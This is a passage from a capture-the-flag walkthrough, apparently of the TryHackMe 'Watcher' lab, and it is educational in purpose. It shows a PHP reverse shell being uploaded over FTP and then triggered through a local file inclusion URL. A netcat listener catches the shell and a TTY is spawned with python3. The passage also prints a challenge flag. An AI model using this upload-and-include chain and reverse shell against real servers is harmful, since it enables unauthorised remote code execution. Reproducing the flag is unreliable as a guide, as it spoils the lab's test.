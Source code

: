 We found the 2nd flag. `files` directory is empty (for now ; ) ):

Flag 2: `FLAG{ftp_you_and_me}`

### Flag 3

Hint: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2

Ok. Now that we have access to the ftp service, we can upload a reverse shell and call it from the web service. You can get the shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't forget to change the IP to yours:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Watcher/files]
└─$ ftp $IP
Connected to 10.10.36.78.
220 (vsFTPd 3.0.3)
Name (10.10.36.78:user): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
d226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (45.5442 MB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 Oct 30 09:26 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
-rw-r--r--    1 1001     1001         5492 Oct 30 09:26 shell.php
226 Directory send OK.
ftp> exit
221 Goodbye.
~~~

We uploaded the reverse shell. Let's start a listener and call the shell. You can call the shell from `http://$IP/post.php?post=/home/ftpuser/ftp/files/shell.php`. Now we have a shell. The first thing I did was spawning a TTY shell:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Watcher/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.209] from (UNKNOWN) [10.10.36.78] 58302
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:58:21 up  1:23,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@watcher:/$
~~~
